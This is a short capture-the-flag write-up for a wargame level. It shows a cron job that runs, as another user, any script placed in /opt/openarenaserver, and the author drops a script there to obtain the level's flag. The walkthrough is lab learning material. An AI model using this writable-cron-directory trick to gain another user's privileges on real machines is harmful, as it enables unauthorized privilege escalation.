 After logging in as user level05, I received a message: 'You have a new mail.'

I then utilized the 'find' command to search for any file or directory with the name 'mail/level05/flag05.'
In /var/mail/level05, I discovered a crontab file:

```plaintext
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This crontab is set to execute the command 'sh /usr/sbin/openarenaserver' every 2 minutes with the user flag05.

Examining /usr/sbin/openarenaserver, I found the following script:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

This script runs every program in /opt/openarenaserver and removes them afterward.
Taking advantage of this, I created a script at /opt/openarenaserver/test:

```bash
#!/bin/sh
retflag | wall
```

After waiting for 30 seconds, I retrieved the flag.
